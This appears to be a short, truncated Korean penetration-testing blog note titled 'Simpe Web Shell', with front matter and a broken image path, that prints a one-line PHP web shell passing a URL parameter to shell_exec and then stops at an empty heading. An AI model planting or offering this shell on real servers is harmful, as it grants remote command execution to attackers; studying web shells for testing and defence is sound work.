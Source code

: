 ```yaml
---
title: Simpe Web Shell
date: YYYY-MM-DD HH:MM:SS +09:00
categories: [모의해킹]
tags: [WEB]
---
```


### 웹쉘 테스트


### 한줄 웹쉘

```php
<?php echo shell_exec($_GET['cmd']); ?>

### 날짜 출력 웹쉘
